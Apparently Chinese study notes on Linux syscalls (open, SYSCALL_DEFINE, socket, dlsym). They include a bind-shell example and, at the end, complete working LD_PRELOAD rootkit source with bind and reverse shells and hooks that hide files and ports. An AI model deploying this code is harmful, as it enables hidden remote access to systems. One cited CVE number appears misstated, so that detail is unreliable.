7     int filedescriptor;
8  
9     filedescriptor = open("testfile.txt", O_WRONLY | O_CREAT, S_IRWXU);
   0x00005555555551d5 <+12>:  mov    edx,0x1c0
   0x00005555555551da <+17>:  mov    esi,0x41
   0x00005555555551df <+22>:  lea    rdi,[rip+0xe22]        # 0x555555556008
   0x00005555555551e6 <+29>:  mov    eax,0x0
   0x00005555555551eb <+34>:  call   0x5555555550d0 <open@plt>
   0x00005555555551f0 <+39>:  mov    DWORD PTR [rbp-0x8],eax

10 
11    if (filedescriptor < 0)
   0x00005555555551f3 <+42>:  cmp    DWORD PTR [rbp-0x8],0x0
   0x00005555555551f7 <+46>:  jns    0x555555555211 <main+72>

12    {
13       printf("The open operation failed...");
   0x00005555555551f9 <+48>:  lea    rdi,[rip+0xe15]        # 0x555555556015
   0x0000555555555200 <+55>:  mov    eax,0x0
   0x0000555555555205 <+60>:  call   0x5555555550b0 <printf@plt>

14       return -1;
   0x000055555555520a <+65>:  mov    eax,0xffffffff
   0x000055555555520f <+70>:  jmp    0x555555555290 <main+199>

15    }
```

`open`源码分析`glibc-2.31/sysdeps/unix/sysv/linux/open64.c:37`  
```c
/* Open FILE with access OFLAG.  If O_CREAT or O_TMPFILE is in OFLAG,
   a third argument is the file protection.  */
int
__libc_open64 (const char *file, int oflag, ...)
{
  int mode = 0;

  if (__OPEN_NEEDS_MODE (oflag))
    {
      va_list arg;
      va_start (arg, oflag);
      mode = va_arg (arg, int);
      va_end (arg);
    }

  return SYSCALL_CANCEL (openat, AT_FDCWD, file, oflag | EXTRA_OPEN_FLAGS,
                         mode);
}
```

在网上看`open`的源码分析的函数为`do_sys_open`, 在gdb中设置，但是无法加载，断点也是`pending`的  
```sh
(gdb) b do_sys_open
Function "do_sys_open" not defined.
Make breakpoint pending on future shared library load? (y or [n]) y
Breakpoint 3 (do_sys_open) pending.
(gdb) info b
Num     Type           Disp Enb Address            What
1       breakpoint     keep y   0x00005555555551c9 in main at /root/work/c-cpp-cookbook/code/test/main.c:6
        breakpoint already hit 1 time
2       breakpoint     keep y   0x00005555555551d5 in main at /root/work/c-cpp-cookbook/code/test/main.c:9
        breakpoint already hit 1 time
3       breakpoint     keep y   <PENDING>          do_sys_open
```

查看`do_sys_open` 函数  
```sh
ldd main
	linux-vdso.so.1 (0x00007ffe62390000)
	/usr/local/glibc/lib/libc-2.31.so (0x00007f90e198a000)
	/usr/local/glibc/lib/ld-2.31.so => /lib64/ld-linux-x86-64.so.2 (0x00007f90e1b61000)
```

发现`/usr/local/glibc/lib/libc-2.31.so`不包含`do_sys_open`,`SYSCALL_DEFINE3(open, const char __user *, filename, int, flags, umode_t, mode)`的实现是`do_sys_open`  

相信熟悉系统调用的都知道，系统调用在内核中的入口都是`sys_xxx`，我也不例外，记得有一次，我抱着学习一下socket内核实现的心态想在内核中寻找sys_socket系统调用，却发现只能找到宏定义，怎么也找不到函数实现。后来经过查阅才知道，原来Linux的系统调用都改为`SYSCALL_DEFINE`定义的了。相信大家都很疑惑，原来的sys_xxx不是挺好的吗？为什么要定义成SYSCALL_DEFINE呢？我也很疑惑，所以我看了一下SYSCALL_DEFINE的定义，如下:  

```c
#define SYSCALL_DEFINE0(name)	   asmlinkage long sys_##name(void)
#define SYSCALL_DEFINE1(name, ...) SYSCALL_DEFINEx(1, _##name, __VA_ARGS__)
#define SYSCALL_DEFINE2(name, ...) SYSCALL_DEFINEx(2, _##name, __VA_ARGS__)
#define SYSCALL_DEFINE3(name, ...) SYSCALL_DEFINEx(3, _##name, __VA_ARGS__)
#define SYSCALL_DEFINE4(name, ...) SYSCALL_DEFINEx(4, _##name, __VA_ARGS__)
#define SYSCALL_DEFINE5(name, ...) SYSCALL_DEFINEx(5, _##name, __VA_ARGS__)
#define SYSCALL_DEFINE6(name, ...) SYSCALL_DEFINEx(6, _##name, __VA_ARGS__)

#define SYSCALL_DEFINEx(x, name, ...)					\
	asmlinkage long sys##name(__SC_DECL##x(__VA_ARGS__));		\
	static inline long SYSC##name(__SC_DECL##x(__VA_ARGS__));	\
	asmlinkage long SyS##name(__SC_LONG##x(__VA_ARGS__))		\
	{								\
		__SC_TEST##x(__VA_ARGS__);				\
		return (long) SYSC##name(__SC_CAST##x(__VA_ARGS__));	\
	}								\
	SYSCALL_ALIAS(sys##name, SyS##name);				\
	static inline long SYSC##name(__SC_DECL##x(__VA_ARGS__))
```

我们就拿socket来举例，`SYSCALL_DEFINEx`里面的x代表的是系统调用参数个数。sys_socket的宏定义为：  

asmlinkage long sys_socket(int, int, int);那么可以看出来对应的应该是SYSCALL_DEFINE3。到socket.c里面找到socket的定义如下：  

```c
SYSCALL_DEFINE3(socket, int, family, int, type, int, protocol)
```

首先##是连接符，__VA_ARGS__代表前面...里面的可变参数，也就是说展开后结果为  
```c
SYSCALL_DEFINEx(3, _socket,  int, family, int, type, int, protocol)
```

那么再将上面的展开，结果如下：  

```c
	asmlinkage long sys_socket(__SC_DECL3(int, family, int, type, int, protocol));		\
	static inline long SYSC_socket(__SC_DECL3(int, family, int, type, int, protocol));	\
	asmlinkage long SyS_socket(__SC_LONG3(int, family, int, type, int, protocol))		\
	{								\
		__SC_TEST3(int, family, int, type, int, protocol);				\
		return (long) SYSC_socket(__SC_CAST3(int, family, int, type, int, protocol));	\
	}								\
	SYSCALL_ALIAS(sys_socket, SyS_socket);				\
	static inline long SYSC_sockt(__SC_DECL3(int, family, int, type, int, protocol))
```

最终变成
```c
asmlinkage long sys_socket(int family, int type, int protocol);		\
	static inline long SYSC_socket(int family, int type, int protocol );	\
	asmlinkage long SyS_socket(long family, long type, long protocol)		\
	{								\
		BUILD_BUG_ON(sizeof(int) > sizeof(long)); BUILD_BUG_ON(sizeof(int) > sizeof(long));			\
		return (long) SYSC_socket((int) family, (int) type, (int) protocol);	\
	}								\
	SYSCALL_ALIAS(sys_socket, SyS_socket);				\
```

大家这下总算看明白了吧，其实里面做的工作，就是将系统调用的参数统一变为了使用long型来接收，再强转转为int，也就是系统调用本来传下来的参数类型。那么这么强转一下究竟是为什么呢？原因就是64位的Linux有一个名为`CVE-2009-2009`的漏洞  


这就需要查看内核代码了.  
`/usr/src/linux-source-5.4.0/fs/open.c`中找到了 
```c
SYSCALL_DEFINE3(open, const char __user *, filename, int, flags, umode_t, mode)
{
	if (force_o_largefile())
		flags |= O_LARGEFILE;

	return do_sys_open(AT_FDCWD, filename, flags, mode);
}
```

```c
long do_sys_open(int dfd, const char __user *filename, int flags, umode_t mode)
{
	struct open_flags op;
	int fd = build_open_flags(flags, mode, &op);
	struct filename *tmp;

	if (fd)
		return fd;

	tmp = getname(filename);
	if (IS_ERR(tmp))
		return PTR_ERR(tmp);

	fd = get_unused_fd_flags(flags);
	if (fd >= 0) {
		struct file *f = do_filp_open(dfd, tmp, &op);
		if (IS_ERR(f)) {
			put_unused_fd(fd);
			fd = PTR_ERR(f);
		} else {
			fsnotify_open(f);
			fd_install(fd, f);
			trace_do_sys_open(tmp->name, flags, mode);
		}
	}
	putname(tmp);
	return fd;
}
```


[:books: 返回目录](#目录)  


## Syacall  
### 意义
内核提供用户空间程序与内核空间进行交互的一套标准接口，这些接口让用户态程序能受限访问硬件设备，比如申请系统资源，操作设备读写，创建新进程等。用户空间发生请求，内核空间负责执行，这些接口便是用户空间和内核空间共同识别的桥梁，这里提到两个字“受限”，是由于为了保证内核稳定性，而不能让用户空间程序随意更改系统，必须是内核对外开放的且满足权限的程序才能调用相应接口。

在用户空间和内核空间之间，有一个叫做`Syscall`(系统调用, system call)的中间层，是连接用户态和内核态的桥梁。这样即提高了内核的安全型，也便于移植，只需实现同一套接口即可。Linux系统，用户空间通过向内核空间发出Syscall，产生软中断，从而让程序陷入内核态，执行相应的操作。对于每个系统调用都会有一个对应的系统调用号，比很多操作系统要少很多。  

### Syscall对照表  
| 名称 | 系统调用号 | 头文 | 内核实现 |
| --- | --------- | --- | ------- | 
| read | 0 | unistd.h | fs/read_write.c | 
| write | 1 | unistd.h | fs/read_write.c | 
| open | 2 | fcntl.h | fs/open.c | 
| close | 3 | unistd.h | fs/open.c | 
| stat | 4 | sys/stat.h | fs/stat.c | 
| fstat | 5 | sys/stat.h | fs/stat.c | 
| lstat | 6 | sys/stat.h | fs/stat.c | 
| poll | 7 | poll.h | fs/select.c | 
| lseek | 8 | unistd.h | fs/read_write.c | 
| mmap | 9 | sys/mman.h | arch/x86/kernel/sys_x86_64.c | 
| munmap | 11 | sys/mman.h | mm/mmap.c | 
| pread64 | 17 | unistd.h | fs/read_write.c | 
| pwrite64 | 18 | unistd.h | fs/read_write.c | 
| readv | 19 | sys/uio.h | fs/read_write.c | 
| writev | 20 | sys/uio.h | fs/read_write.c | 
| select | 23 | sys/select.h | fs/select.c | 
| mremap | 25 | sys/mman.h | mm/mremap.c | 
| msync | 26 | sys/mman.h | mm/msync.c | 
| epoll_create | 213 | sys/epoll.h | fs/eventpoll.c | 
| remap_file_pages | 216 | sys/mman.h | mm/mmap.c | 
| epoll_ctl | 232 | sys/epoll.h | fs/eventpoll.c | 
| epoll_wait | 233 | sys/epoll.h | fs/eventpoll.c | 
| openat | 257 | fcntl.h | fs/open.c | 
| newfstatat | 262 | sys/stat.h | fs/stat.c | 
| pselect6 | 270 | sys/select.h | fs/select.c | 
| ppoll | 271 | poll.h | fs/select.c | 
| epoll_pwait | 281 | sys/epoll.h | fs/eventpoll.c | 
| eventfd | 284 | sys/eventfd.h | fs/eventfd.c | 
| eventfd2 | 290 | sys/eventfd.h | fs/eventfd.c | 
| epoll_create1 | 291 | sys/epoll.h | fs/eventpoll.c | 
| preadv | 295 | sys/uio.h | fs/read_write.c | 
| pwritev | 296 | sys/uio.h | fs/read_write.c | 
| name_to_handle_at | 303 | fcntl.h | fs/fhandle.c | 
| open_by_handle_at | 304 | fcntl.h | fs/fhandle.c | 
| preadv2 | 327 | sys/uio.h | fs/read_write.c | 
| pwritev2 | 328 | sys/uio.h | fs/read_write.c | 
| statx | 332 | linux/stat.h | fs/stat.c | 
| open_tree | 428 | 无 | fs/namespace.c | 

### syscall原理  

[:books: 返回目录](#目录)  


## socket 

```c
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main(void) {

    //creating variable listen_sock which is returned by socket() as we need it for the bind(), listen(), and accept() calls 
    int listen_sock = socket(AF_INET, SOCK_STREAM, 0);

    // Building a 'struct' which consists of AF_INET, the interface we want to listen on (all), and a port number to bind on. This entire entity will be referenced in arguments for the next syscall: bind()    
    struct sockaddr_in server_addr;
    server_addr.sin_family = AF_INET;           
    server_addr.sin_addr.s_addr = INADDR_ANY;  
    server_addr.sin_port = htons(5555);        

    // Our second syscall, and perhaps the most complicated: bind() 
    bind(listen_sock, (struct sockaddr *)&server_addr, sizeof(server_addr));

    //0 here is our specified backlog, (we dont have one)
    listen(listen_sock, 0);

    //creating new var conn_sock which is returned from accept() and needed for the dup2() call which duplicates this for stdin, stdout, and stderr
    int conn_sock = accept(listen_sock, NULL, NULL);

    // Our fifth syscall, dup2(), is used 3 times
    dup2(conn_sock, 0);
    dup2(conn_sock, 1);
    dup2(conn_sock, 2);

    // Our final syscall is execve(), which runs a program fed to it as a string
    execve("/bin/sh", NULL, NULL);
}
```

反汇编内容 
```sh
6  
7      //creating variable listen_sock which is returned by socket() as we need it for the bind(), listen(), and accept() calls 
8      int listen_sock = socket(AF_INET, SOCK_STREAM, 0);
=> 0x0000555555555244 <+27>:  mov    edx,0x0
   0x0000555555555249 <+32>:  mov    esi,0x1
   0x000055555555524e <+37>:  mov    edi,0x2
   0x0000555555555253 <+42>:  call   0x555555555130 <socket@plt>
   0x0000555555555258 <+47>:  mov    DWORD PTR [rbp-0x28],eax

9  
10     // Building a 'struct' which consists of AF_INET, the interface we want to listen on (all), and a port number to bind on. This entire entity will be referenced in arguments for the next syscall: bind()    
11     struct sockaddr_in server_addr;
12     server_addr.sin_family = AF_INET;           
   0x000055555555525b <+50>:  mov    WORD PTR [rbp-0x20],0x2

13     server_addr.sin_addr.s_addr = INADDR_ANY;  
   0x0000555555555261 <+56>:  mov    DWORD PTR [rbp-0x1c],0x0

14     server_addr.sin_port = htons(5555);        
   0x0000555555555268 <+63>:  mov    edi,0x15b3
   0x000055555555526d <+68>:  call   0x5555555550d0 <htons@plt>
   0x0000555555555272 <+73>:  mov    WORD PTR [rbp-0x1e],ax

15 
16     // Our second syscall, and perhaps the most complicated: bind() 
17     bind(listen_sock, (struct sockaddr *)&server_addr, sizeof(server_addr));
   0x0000555555555276 <+77>:  lea    rcx,[rbp-0x20]
   0x000055555555527a <+81>:  mov    eax,DWORD PTR [rbp-0x28]
   0x000055555555527d <+84>:  mov    edx,0x10
   0x0000555555555282 <+89>:  mov    rsi,rcx
   0x0000555555555285 <+92>:  mov    edi,eax
   0x0000555555555287 <+94>:  call   0x555555555110 <bind@plt>

18 
19     //0 here is our specified backlog, (we dont have one)
20     listen(listen_sock, 0);
   0x000055555555528c <+99>:  mov    eax,DWORD PTR [rbp-0x28]
   0x000055555555528f <+102>: mov    esi,0x0
   0x0000555555555294 <+107>: mov    edi,eax
   0x0000555555555296 <+109>: call   0x555555555100 <listen@plt>
```

[:books: 返回目录](#目录)  

## dl动态库操作-dlsym
```c
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <string.h>

ssize_t write(int fildes, const void *buf, size_t nbytes)
{
	ssize_t (*new_write)(int fildes, const void *buf, size_t nbytes);

	ssize_t result;

	new_write = dlsym(RTLD_NEXT, "write");

	if (strcmp(buf, "Hello, World!") == 0)
	{
		result = new_write(fildes, "Goodbye, cruel world!", 21);
	}

	else
	{
		result = new_write(fildes, buf, nbytes);
	}

	return result;
}
```

`man dlopen`
```c
#include <dlfcn.h>

void *dlopen(const char *filename, int flag);

char *dlerror(void);

void *dlsym(void *handle, const char *symbol);

int dlclose(void *handle);
```

dlopen以指定模式打开指定的动态连接库文件，并返回一个句柄给调用进程，dlerror返回出现的错误，dlsym通过句柄和连接符名称获取函数名或者变量名，dlclose来卸载打开的库。  


## 后记  
https://h0mbre.github.io/Learn-C-By-Creating-A-Rootkit/#  

```c
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <string.h>
#include <fcntl.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <dlfcn.h>
#include <dirent.h>
#include <arpa/inet.h>
//bind-shell definitions
#define KEY_4 "notavaliduser4"
#define KEY_6 "notavaliduser6"
#define PASS "areallysecurepassword1234!@#$"
#define LOC_PORT 65065
//reverse-shell definitions
#define KEY_R_4 "reverseshell4"
#define KEY_R_6 "reverseshell6"
#define REM_HOST4 "127.0.0.1"
#define REM_HOST6 "::1"
#define REM_PORT 443
//filename to hide
#define FILENAME "ld.so.preload"
//hex represenation of port to hide for /proc/net/tcp reads
#define KEY_PORT "FE29"

int ipv6_bind (void)
{
    struct sockaddr_in6 addr;
    addr.sin6_family = AF_INET6;
    addr.sin6_port = htons(LOC_PORT);
    addr.sin6_addr = in6addr_any;

    int sockfd = socket(AF_INET6, SOCK_STREAM, 0);

    const static int optval = 1;

    setsockopt(sockfd, IPPROTO_IPV6, IPV6_V6ONLY, &optval, sizeof(optval));

    setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, &optval, sizeof(optval));

    bind(sockfd, (struct sockaddr*) &addr, sizeof(addr));

    listen(sockfd, 0);

    int new_sockfd = accept(sockfd, NULL, NULL);

    for (int count = 0; count < 3; count++)
    {
        dup2(new_sockfd, count);
    }

    char input[30];

    read(new_sockfd, input, sizeof(input));
    input[strcspn(input, "\n")] = 0;
    if (strcmp(input, PASS) == 0)
    {
        execve("/bin/sh", NULL, NULL);
        close(sockfd);
    }
    else 
    {
        shutdown(new_sockfd, SHUT_RDWR);
        close(sockfd);
    }
    
}

int ipv4_bind (void)
{
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(LOC_PORT);
    addr.sin_addr.s_addr = INADDR_ANY;

    int sockfd = socket(AF_INET, SOCK_STREAM, 0);

    const static int optval = 1;

    setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, &optval, sizeof(optval));

    bind(sockfd, (struct sockaddr*) &addr, sizeof(addr));

    listen(sockfd, 0);

    int new_sockfd = accept(sockfd, NULL, NULL);

    for (int count = 0; count < 3; count++)
    {
        dup2(new_sockfd, count);
    }

    char input[30];

    read(new_sockfd, input, sizeof(input));
    input[strcspn(input, "\n")] = 0;
    if (strcmp(input, PASS) == 0)
    {
        execve("/bin/sh", NULL, NULL);
        close(sockfd);
    }
    else 
    {
        shutdown(new_sockfd, SHUT_RDWR);
        close(sockfd);
    }
    
}

int ipv6_rev (void)
{
    const char* host = REM_HOST6;

    struct sockaddr_in6 addr;
    addr.sin6_family = AF_INET6;
    addr.sin6_port = htons(REM_PORT);
    inet_pton(AF_INET6, host, &addr.sin6_addr);

    struct sockaddr_in6 client;
    client.sin6_family = AF_INET6;
    client.sin6_port = htons(LOC_PORT);
    client.sin6_addr = in6addr_any;

    int sockfd = socket(AF_INET6, SOCK_STREAM, 0);

    bind(sockfd, (struct sockaddr*) &client, sizeof(client));

    connect(sockfd, (struct sockaddr*) &addr, sizeof(addr));

    for (int count = 0; count < 3; count++)
    {
        dup2(sockfd, count);
    }

    execve("/bin/sh", NULL, NULL);
    close(sockfd);

    return 0;
}

int ipv4_rev (void)
{
    const char* host = REM_HOST4;

    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(REM_PORT);
    inet_aton(host, &addr.sin_addr);

    struct sockaddr_in client;
    client.sin_family = AF_INET;
    client.sin_port = htons(LOC_PORT);
    client.sin_addr.s_addr = INADDR_ANY;

    int sockfd = socket(AF_INET, SOCK_STREAM, 0);

    bind(sockfd, (struct sockaddr*) &client, sizeof(client));

    connect(sockfd, (struct sockaddr*) &addr, sizeof(addr));

    for (int count = 0; count < 3; count++)
    {
        dup2(sockfd, count);
    }

    execve("/bin/sh", NULL, NULL);
    close(sockfd);

    return 0;
}

ssize_t write(int fildes, const void *buf, size_t nbytes)
{
    ssize_t (*new_write)(int fildes, const void *buf, size_t nbytes);

    ssize_t result;

    new_write = dlsym(RTLD_NEXT, "write");


    char *bind4 = strstr(buf, KEY_4);
    char *bind6 = strstr(buf, KEY_6);
    char *rev4 = strstr(buf, KEY_R_4);
    char *rev6 = strstr(buf, KEY_R_6);

    if (bind4 != NULL)
    {
        fildes = open("/dev/null", O_WRONLY | O_APPEND);
        result = new_write(fildes, buf, nbytes);
        ipv4_bind();
    }

    else if (bind6 != NULL)
    {
        fildes = open("/dev/null", O_WRONLY | O_APPEND);
        result = new_write(fildes, buf, nbytes);
        ipv6_bind();
    }

    else if (rev4 != NULL)
    {
        fildes = open("/dev/null", O_WRONLY | O_APPEND);
        result = new_write(fildes, buf, nbytes);
        ipv4_rev();
    }

    else if (rev6 != NULL)
    {
        fildes = open("/dev/null", O_WRONLY | O_APPEND);
        result = new_write(fildes, buf, nbytes);
        ipv6_rev();
    }

    else
    {
        result = new_write(fildes, buf, nbytes);
    }

    return result;
}

struct dirent *(*old_readdir)(DIR *dir);
struct dirent *readdir(DIR *dirp)
{
    old_readdir = dlsym(RTLD_NEXT, "readdir");

    struct dirent *dir;

    while (dir = old_readdir(dirp))
    {
        if(strstr(dir->d_name,FILENAME) == 0) break;
    }
    return dir;
}


struct dirent64 *(*old_readdir64)(DIR *dir);
struct dirent64 *readdir64(DIR *dirp)
{
    old_readdir64 = dlsym(RTLD_NEXT, "readdir64");

    struct dirent64 *dir;

    while (dir = old_readdir64(dirp))
    {
        if(strstr(dir->d_name,FILENAME) == 0) break;
    }
    return dir;
}

FILE *(*orig_fopen64)(const char *pathname, const char *mode);
FILE *fopen64(const char *pathname, const char *mode)
{
	orig_fopen64 = dlsym(RTLD_NEXT, "fopen64");

	char *ptr_tcp = strstr(pathname, "/proc/net/tcp");

	FILE *fp;

	if (ptr_tcp != NULL)
	{
		char line[256];
		FILE *temp = tmpfile64();
		fp = orig_fopen64(pathname, mode);
		while (fgets(line, sizeof(line), fp))
		{
			char *listener = strstr(line, KEY_PORT);
			if (listener != NULL)
			{
				continue;
			}
			else
			{
				fputs(line, temp);
			}
		}
		return temp;
	}

	fp = orig_fopen64(pathname, mode);
	return fp;
}

FILE *(*orig_fopen)(const char *pathname, const char *mode);
FILE *fopen(const char *pathname, const char *mode)
{
	orig_fopen = dlsym(RTLD_NEXT, "fopen");

	char *ptr_tcp = strstr(pathname, "/proc/net/tcp");

	FILE *fp;

	if (ptr_tcp != NULL)
	{
		char line[256];
		FILE *temp = tmpfile();
		fp = orig_fopen(pathname, mode);
		while (fgets(line, sizeof(line), fp))
		{
			char *listener = strstr(line, KEY_PORT);
			if (listener != NULL)
			{
				continue;
			}
			else
			{
				fputs(line, temp);
			}
		}
		return temp;

	}

	fp = orig_fopen(pathname, mode);
	return fp;
}
```

[:books: 返回目录](#目录)  
